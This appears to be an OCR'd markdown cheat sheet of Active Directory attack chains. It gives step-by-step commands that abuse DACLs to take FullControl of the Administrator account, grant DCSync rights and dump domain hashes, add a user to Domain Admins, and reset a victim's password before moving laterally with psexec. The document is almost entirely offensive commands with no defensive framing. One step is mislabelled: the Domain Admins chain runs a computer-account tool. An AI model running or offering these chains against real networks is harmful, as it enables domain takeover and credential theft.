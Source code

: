 ### Privilege Escalation via DACL Abuse
```bash
# Step 1: Enumerate AD objects and permissions
python3 dacledit.py domain.local/user:password -target Administrator -action read

# Step 2: Grant yourself FullControl over high-value account
python3 dacledit.py domain.local/user:password -action write -target Administrator -principal user -rights FullControl

# Step 3: Reset target account password
python3 changepasswd.py domain.local/Administrator:newpassword@dc.domain.local -altuser user -altpass password
```

### DCSync Attack Setup
```bash
# Step 1: Grant DCSync rights to controlled account
python3 dacledit.py domain.local/user:password -action write -target-dn "DC=domain,DC=local" -principal user -rights DCSync

# Step 2: Perform DCSync attack
python3 secretsdump.py domain.local/user:password@dc.domain.local -just-dc
```

### Group Membership Manipulation
```bash
# Step 1: Grant WriteMembers right on Domain Admins group
python3 dacledit.py domain.local/user:password -action write -target "Domain Admins" -principal user -rights WriteMembers

# Step 2: Add user to Domain Admins group
python3 addcomputer.py domain.local/user:password -method SAMR -computer-name FAKE$ -computer-pass password
# Then use AD tools to add user to group

# Step 3: Verify membership and use elevated privileges
python3 secretsdump.py domain.local/user:password@dc.domain.local
```

### Password Reset Chain
```bash
# Step 1: Grant ResetPassword right on target account
python3 dacledit.py domain.local/user:password -action write -target victim -principal user -rights ResetPassword

# Step 2: Reset victim's password
python3 changepasswd.py domain.local/victim@dc.domain.local -newpass NewPassword123! -altuser user -altpass password

# Step 3: Use victim account for lateral movement
python3 psexec.py domain.local/victim:NewPassword123!@target.domain.local
```
